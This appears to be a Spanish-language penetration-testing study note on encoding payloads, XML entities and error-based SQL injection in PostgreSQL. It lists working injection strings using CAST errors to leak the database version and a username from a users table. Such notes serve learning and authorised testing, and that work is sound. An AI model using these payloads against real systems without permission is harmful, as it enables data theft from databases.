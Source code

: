 #### Encoding:
- Ademas de realizar fuzzing siempre es bueno encodear los payloads con:
  - HTML Encoding
  - URL Encoding
  - BASE64 (dependera mucho del contexto de la app)
 
#### Envio de info dentro de XML:
- Entity: XML es muy versatil y permite trabajar con Entity, que principalmente se usa en XSS o XML injection, pero tambien puede ser usado para no inyectar directamentro dentro de la etiqueta:
```xml
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

- Encodear: El plugin Hackvector permite usar tags, que lo que coloques dentro el hara la conversión.
  - <@hex('hola')>asd</@hex> colocara un hola entre cada hexadecimal de cada caracter -> 61hola73hola64
  - <@hex_entities></@hex_entities>: Convierte caracteres a entidades hexadecimales HTML '<' → &#x3C;
  - <@hex_escapes>: Utiliza escapes hexadecimales 'A' → \x41
 
NOTA: El encodeamiento tambien se puede hacer de forma manual, no es necesario el plugin, pero a hacerlo más facil.

### Tipos de sqli:

#### In-Band:
- Error based: En base a provocar errores aparte de ser la forma más directa de conocer que existe un SQLI, se puede provocar errores por ejemplo de casteo, donde regresa el valor sí hubo un problema en su conversión de string a integer.

  - Posgres:

1- Provocar el error: Con un simple mal cierre del query, se puede producir el error
```sql
    '
```

2- Error basico: Este cast deberia provocar que regrese un string pero el espera un integer, entonces mostrara el valor a en pantalla, tambien puedes hacer lo mismo para provocar que se muestre la versión
```sql
    ' AND 1=CAST((SELECT 'a') AS int)--
    ' AND 1=CAST((SELECT version()) AS int)--
```

3- Información de columnas y tablas: Mismo paso donde puedes traer datos tipo integer y luego verlos como un error.
```sql
    ' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)-- 
```
